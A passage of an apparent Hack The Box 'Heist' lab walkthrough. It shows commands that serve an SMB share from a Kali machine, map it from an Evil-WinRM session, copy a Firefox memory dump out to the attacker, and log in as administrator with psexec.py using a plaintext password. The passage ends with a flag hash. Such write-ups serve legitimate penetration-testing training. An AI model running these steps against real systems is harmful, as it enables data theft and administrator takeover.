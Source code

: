 root@kali:~/htb/heist#chmod +x smbserver_linux 

root@kali:~/htb/heist#./smbserver_linux -smb2support -username guest -password guest share2 ~/htb/heist/

![image](https://user-images.githubusercontent.com/6413570/163595951-fe7bac9b-7791-4992-9aba-3a33ae342bae.png)

*Evil-WinRM* PS C:\Users\Chase\Desktop> net use x: \\10.10.14.10\share2 /user:guest guest

![image](https://user-images.githubusercontent.com/6413570/163595975-999dff5a-3ee4-45e8-89e1-cdef5923062c.png)

cmd /c copy firefox.dmp X:\

PSEXEC

psexec.py 'administrator:4dD!5}x/re8]FBuZ@10.10.10.149'

![image](https://user-images.githubusercontent.com/6413570/163596024-3a9d8a66-e611-436a-b5d4-a46c3b37345b.png)

![image](https://user-images.githubusercontent.com/6413570/163596032-6dc211e9-4f8d-4acd-a4ad-6a925548518f.png)

50dfa3c6bfd20e2e0d071b073d766897























If you find this interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/jessefmoore"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an Coffee?&emoji=&slug=jessefmoore&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>

